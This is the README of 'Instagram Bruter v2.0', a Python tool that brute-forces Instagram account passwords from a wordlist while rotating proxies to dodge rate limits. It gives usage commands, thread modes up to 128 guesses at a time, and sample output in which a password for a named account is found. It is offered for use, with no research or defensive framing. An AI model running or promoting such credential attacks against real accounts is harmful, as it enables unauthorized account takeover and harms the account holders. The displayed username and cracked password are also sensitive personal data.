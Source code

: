 # Instagram Bruter *v2.0*

Re-engineered to work **without** TOR<br>
__Usage:__ `python instagram.py <username> <wordlist> -m <mode>`

### Requirements
- Python *v2.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes; 0: 128bots, 1: 64bots, 2: 32bots, 3: 16bot
```

### Bots(Threads)
- 1 bot: 16 passwords at a time
- 2 bots: 32 passwords at a time
- 4 bots: 64 passwords at a time
- 8 bots: 128 passwords at a time

### Modes
- 0: 8 bots
- 1: 4 bots
- 2: 2 bots
- 3: 1 bot

### Chill mode
This mode uses only 1 bot, or 16 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1
This mode uses 2 bots, or 32 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2
This mode uses 4 bots, or 64 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode
This mode uses 8 bots, or 128 passwords at a time.<br>
Only use this mode when you have to, proxies are limited so save some **p**__****__ for the rest of us
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run
```
[-] Proxy-IP: 125.25.80.39[Thailand]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 31
[-] Attempts: 15
[-] Proxies: 334
[-] Bots: 2
```

### Stop
```
[-] Proxy-IP: 37.145.33.107[Poland]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 97
[-] Proxies: 4
[-] Bots: 2

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
